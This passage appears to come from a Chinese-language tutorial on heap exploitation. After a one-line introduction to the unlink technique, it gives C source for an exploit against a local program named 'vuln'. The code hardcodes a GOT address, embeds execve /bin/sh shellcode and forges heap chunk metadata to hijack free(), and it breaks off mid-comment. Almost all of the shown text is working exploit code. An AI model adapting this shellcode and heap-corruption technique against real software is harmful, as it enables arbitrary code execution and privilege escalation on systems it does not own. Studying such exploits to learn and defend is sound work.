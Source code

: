 
理解了 unlink 技巧之后，让我们编写利用程序吧。

```
/* Program to exploit 'vuln' using unlink technique.
 */
#include <string.h>
#include <unistd.h>

#define FUNCTION_POINTER ( 0x0804978c )         //Address of GOT entry for free function obtained using "objdump -R vuln".
#define CODE_ADDRESS ( 0x0804a008 + 0x10 )      //Address of variable 'first' in vuln executable. 

#define VULNERABLE "./vuln"
#define DUMMY 0xdefaced
#define PREV_INUSE 0x1

char shellcode[] =
        /* Jump instruction to jump past 10 bytes. ppssssffff - Of which ffff would be overwritten by unlink function
        (by statement BK->fd = FD). Hence if no jump exists shell code would get corrupted by unlink function. 
        Therefore store the actual shellcode 12 bytes past the beginning of buffer 'first'*/
        "\xeb\x0assppppffff"
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main( void )
{
        char * p;
        char argv1[ 680 + 1 ];
        char * argv[] = { VULNERABLE, argv1, NULL };

        p = argv1;
        /* the fd field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the fd_nextsize field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk_nextsize field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* Copy the shellcode */
        memcpy( p, shellcode, strlen(shellcode) );
        p += strlen( shellcode );
        /* Padding- 16 bytes for prev_size,size,fd and bk of second chunk. 16 bytes for fd,bk,fd_nextsize,bk_nextsize 
        of first chunk */
        memset( p, 'B', (680 - 4*4) - (4*4 + strlen(shellcode)) );
        p += ( 680 - 4*4 ) - ( 4*4 + strlen(shellcode) );
        /* the prev_size field of the second chunk. Just make sure its an even number ie) its prev_inuse bit is unset */
        *( (size_t *)p ) = (size_t)( DUMMY & ~PREV_INUSE );
        p += 4;
        /* the size field of the second chunk. By setting size to -4, we trick glibc malloc to unlink second chunk.*/
        *( (size_t *)p ) = (size_t)( -4 );
        p += 4;
        /* the fd field of the second chunk. It should point to free - 12\. -12 is required since unlink function
```